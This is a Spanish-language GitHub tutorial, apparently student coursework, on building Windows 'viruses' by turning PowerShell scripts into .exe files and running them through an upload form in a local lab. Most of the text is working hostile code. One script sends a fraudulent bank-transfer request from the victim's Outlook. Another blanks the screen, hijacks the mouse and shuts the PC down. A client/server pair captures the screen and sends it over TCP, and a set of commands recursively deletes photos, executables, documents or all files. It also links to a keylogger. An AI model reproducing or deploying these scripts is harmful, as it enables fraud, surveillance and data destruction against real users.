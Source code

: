 # CREACIÓN DE VIRUS (VERSIÓN .EXE)
<p align="center">
<img src="https://media.giphy.com/media/115BJle6N2Av0A/giphy.gif" />
</p>
Vamos a crear con powershell script que posteriormente convertiremos en archivos ejecutables (.exe). Para ello usaremos WIN-PS2EXE (Modo Gráfico)

Instalaremos con powershell el modulo (modo administrador)
```powershell
Install-Module -Name ps2exe
```
Posteriormente abriremos el programa de forma gráfica.
```powershell
win-ps2exe
```
Para crear el .exe solo tenemos que introducir la ruta del script .ps1 en SOURCE FILE y la ruta + el nombre del archivo (incluyendo la extension .exe) en Target file.
<br/>
<p align="center">
<a href="https://i.stack.imgur.com/iZ9es.png"><img src="https://i.stack.imgur.com/iZ9es.png" /></a>
</p>
<br/>

Para mas dudas con la instalación visita.
 [TUTORIAL](https://www.optimizationcore.com/scripting/powershell-ps1-to-exe-converter-ps2exe-markus-scholtes/)
## MODUS OPERANDI
Para crear el laboratorio, trabajaremos con localhost en xampp y vamos a crear un **formulario** al cual subiremos los ejecutables que se guardarán en una carpeta **Upload** (propiedad de la victima) donde posteriormente ejecutaremos.
Para ello crearemos un PHP dentro de htdocs con lo siguiente:
```powershell
<?php
system(".\\uploads\\hola.exe");
?>
```

Aqui podemos ver como crearlo [Formulario y carpeta upload](https://github.com/PabloQueipo/IAW/blob/cf923c250a9a52f6598e0b01b7d996cb9978ef58/2020_11_27.md)

------------------------------

## CASOS VARIOS
<p align="center">
<a href="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg"><img src="https://www.campusciberseguridad.com/media/k2/items/cache/9267284e7733f4bec00d2e114d3f3ba1_XL.jpg" /></a>
</p>

### PHISHING
Haciendo una investigación previa se consiguen correos electronicos de personal de la empresa y desde la cuenta de la víctima mandaremos un correo a otro compañero pidiendo un ingreso en una cuenta bancaria.

```powershell
$Outlook = New-Object -ComObject Outlook.Application
$Mail = $Outlook.CreateItem(0)
$Mail.To = "keipo20@gmail.com"
$Mail.Subject = "URGENTE"
$Mail.Body ="Buenos días, haz un ingreso de 100 € a la Cuenta Bancaria siguiente: xx xxxx xx xxxx xxxxxxxxxxx"
$Mail.Send()
```

**Phishing con la aplicación** [NEXPHISHER](https://github.com/PabloQueipo/SAD/blob/main/2020_11_11.md)

------------------------------------

### MOLESTAR 
:satisfied:
Ejecutable con la siguiente secuencia:
1. Minimizar todas las pantallas.
2. Voz con mensaje.
3. Gif que habremos introducido junto con el .exe
4. Voz con mensaje y posterior apagar pantalla.
5. Bucle que mueve el ratón.
6. Abrir notepad y escribirle mensaje.
6. APAGAR EL PC 20 segundos después.

<p align="center">
<img src="https://media.giphy.com/media/eaECZB7V6GACc/giphy.gif"/>
</p>


```powershell
(New-Object -ComObject Shell.Application).MinimizeAll()
(New-Object -com SAPI.SpVoice).speak("Acabo de entrar en tu ordenador")
Start-Process ".\\uploads\\hacker.gif"

Start-Sleep 1
(New-Object -com SAPI.SpVoice).speak("TE VOY A APAGAR LA PANTALLA")

$code = @"
using System;
using System.Runtime.InteropServices;
public class API
{
    [DllImport("user32.dll")]
    public static extern
    int SendMessage(IntPtr hWnd, UInt32 Msg, IntPtr wParam, IntPtr lParam);
}
"@
$t = Add-Type -TypeDefinition $code -PassThru
$t::SendMessage(0xffff, 0x0112, 0xf170, 2)

for(1)
{
    Start-Sleep -Seconds 1
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
    Start-Sleep -Seconds 1
    [System.Windows.Forms.Cursor]::Position=New-Object System.Drawing.Point(($xa+50),($ya+50))
    $xa = [System.Windows.Forms.Cursor]::Position.X
    $ya = [System.Windows.Forms.Cursor]::Position.y
    Write-Host $xa $ya
}
[System.Windows.Forms.SendKeys]::SendWait("^({esc})")
[System.Windows.Forms.SendKeys]::SendWait("ejecutar")
[System.Windows.Forms.SendKeys]::SendWait("{enter}")
Start-Sleep -Seconds 1
[System.Windows.Forms.SendKeys]::SendWait("notepad")
[System.Windows.Forms.SendKeys]::SendWait("{enter}")
Start-Sleep -Seconds 1
[System.Windows.Forms.SendKeys]::SendWait("SE ACABO")

Start-Sleep 20
Stop-Computer -ComputerName localhost
```

-------------------------------

### CAPTURAS DE PANTALLA

Dos maneras:
- Guardarlas en el propio sistema
- Mandarlas Cliente/Servidor

#### Propio Sistema
Con este Script podemos realizar capturas de pantalla y guardarlas en la ruta que indiquemos.
```powershell
[Reflection.Assembly]::LoadWithPartialName("System.Drawing")
function screenshot([Drawing.Rectangle]$bounds, $path) {
$bmp = New-Object Drawing.Bitmap $bounds.width, $bounds.height
$graphics = [Drawing.Graphics]::FromImage($bmp)
$graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size)
$bmp.Save($path)
$graphics.Dispose()
$bmp.Dispose()
}
$bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900)
screenshot $bounds "C:\Users\keipo\Desktop\screenshot.png"
```
-------------------------------------------
#### Cliente/Servidor

Para ello el **Cliente será** el archivo que debera ejecutar **la víctima**, y el **Servidor** deberá estar previamente escuchando.
<br/>
**Cliente/Víctima**
:innocent:
```powershell
$port=2053
$TcpClient=New-Object System.Net.Sockets.TcpClient([IPAddress]::Loopback, $port)
$GetStream = $TcpClient.GetStream()
$StreamWriter = New-Object System.IO.StreamWriter $GetStream
$path=’C:\Users\keipo\Desktop\screenshot.bmp’
$Bitmap=New-Object System.Drawing.Bitmap([System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Width, [System.Windows.Forms.Screen]::PrimaryScreen.Bounds.Height)
$Graphics=[System.Drawing.Graphics]::FromImage($Bitmap)
$Graphics.CopyFromScreen((New-Object System.Drawing.Point(0,0)), (New-Object System.Drawing.Point(0,0)), $Bitmap.Size)
$Graphics.Dispose()
$Bitmap.Save($path,'Bmp')
$Bytes = [System.IO.File]::ReadAllBytes($path)
$StreamWriter.Write($Bytes,0,$Bytes.length)
$StreamWriter.Dispose()
$GetStream.Dispose()
$TcpClient.Dispose()
```

**Servidor/Delincuente**
:smiling_imp:
```powershell
$port=2053
$IPEndPoint=New-Object System.Net.IPEndPoint([IPAddress]::Any,$port)
$TcpListener=New-Object System.Net.Sockets.TcpListener $IPEndPoint
$TcpListener.Start()
$AcceptTcpClient=$TcpListener.AcceptTcpClient()
$GetStream=$AcceptTcpClient.GetStream()
$StreamReader=New-Object System.IO.StreamReader $GetStream
$ReadAllLines = $StreamReader.ReadToEnd()
$Bytes = ([system.Text.Encoding]::Default).GetBytes($ReadAllLines)
[System.IO.File]::WriteAllBytes('C:\Users\keipo\Desktop\screenshotcopy.bmp',$Bytes)
$StreamReader.Dispose()
$GetStream.Dispose()
$AcceptTcpClient.Dispose()
$TcpListener.Stop()
```

------------------------------------

### BORRADO DE TODA LA INFORMACIÓN O ALGÚN TIPO CONCRETO
Podemos **Borrar** toda la información o solo algun tipo.
<p align="center">
<img src="https://media.giphy.com/media/R7m04yMaGWVeE/giphy.gif" />
</p>

**Fotografías**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.jpg
Remove-Item $fotos
```
**Ejecutables**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.exe
Remove-Item $fotos
```
**Documentos**
```powershell
$fotos=Get-ChildItem -Recurse -Filter *.docx
Remove-Item $fotos
```
**TODO**
```powershell
$fotos=Get-ChildItem -Recurse 
Remove-Item $fotos
```

------------------------------------------------

### CREACIÓN DE KEYLOGGER (PYTHON)
[Pablo Queipo Keylogger](https://github.com/PabloQueipo/SAD/blob/83925cc70ef76fc94868dacb8c112919c6221c53/2020_11_09.md9)

